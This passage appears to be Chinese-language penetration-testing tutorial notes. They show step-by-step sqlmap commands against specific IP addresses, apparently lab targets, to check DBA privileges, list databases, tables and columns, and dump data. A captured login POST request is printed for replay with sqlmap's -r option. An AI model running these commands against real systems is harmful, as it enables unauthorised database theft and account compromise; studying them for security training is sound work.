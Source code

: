 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135196335-0a4c9b9d-6a24-40c0-b39f-86c8a3344485.png)

```plain
判断是否为最高权限：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --is-dba
这种判断是不是最高权限最好的方法。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135196413-47282559-df41-4312-a62d-9587714c8252.png)

爆库(获取所有的数据库)：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --dbs

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135196631-b003f3c3-a2c7-49b3-87bc-c6bb2d895bbd.png)

获取当前数据库：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --current-db

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135196775-418416f5-702b-412c-abd0-3c4573eb08cf.png)

获取指定的数据库的表：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --tables -D "SYSTEM"

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135197407-2fbbee44-51bd-49df-818b-87b727ea6ad5.png)

获取指定数据库下表名的字段：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --columns -T "NOTICE"  -D "SYSTEM"

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135197457-a0589749-9366-43fa-a7bc-b32a6ba24bce.png)

获取数据：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --dump -C	"列名" -T "表名"如果出现不同数据库相同的网站，那么就会有缓存，清除缓存：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --purge

------

- 数据库注入-SQLMAP-数据猜解&高权限读写执行

高权限读写执行

```plain
如果用数据包去进行测试，那么需要在数据包上注入点中加上*号，然后用到-r 参数进行测试。（数据包保存为文本文件）
测试目标：47.94.200.108:888
抓取登录框数据包
POST /Login/ValidateLogin HTTP/1.1
Host: 47.94.200.108:888
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://47.94.200.108:888/Login/index
Content-Length: 32
Cookie: Hm_lvt_8ee3ec23e73c6dcda2c7c9c489c151aa=1645057307; Hm_lpvt_8ee3ec23e73c6dcda2c7c9c489c151aa=1645057307
DNT: 1
Connection: close

userName=admin&password=12456789

在SQLmap运行目录生成1.txt文件，保存数据包
```
